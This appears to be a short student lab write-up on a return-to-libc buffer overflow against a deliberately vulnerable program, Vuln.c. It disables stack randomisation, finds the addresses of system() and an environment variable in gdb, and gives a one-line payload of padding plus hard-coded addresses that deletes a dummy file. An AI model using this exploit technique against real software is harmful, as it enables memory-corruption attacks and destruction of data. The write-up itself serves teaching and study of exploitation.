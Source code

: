 # LAB 3: USE RETURN TO LIBC TO DELETE DUMMYFILE

## Set up

- Change to the older bash and turn off randomly given stack value.

![image](./img/image0.png)

- Create `environment variable` using `export`.

![image](./img/image2.png)

- Stack frame of `Vuln.c`.

![image](./img/image1.png)

## Excution

- We will load `Vuln.out` into `gdb` to find the address of `system()` and the environment variable `path`.

![image](./img/image3.png)

- Run the program with:

```
r $(python -c "print('a'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x31\xde\xff\xff')")
```

![img](./img/image4.png)

- `dummyfile` has been deleted.
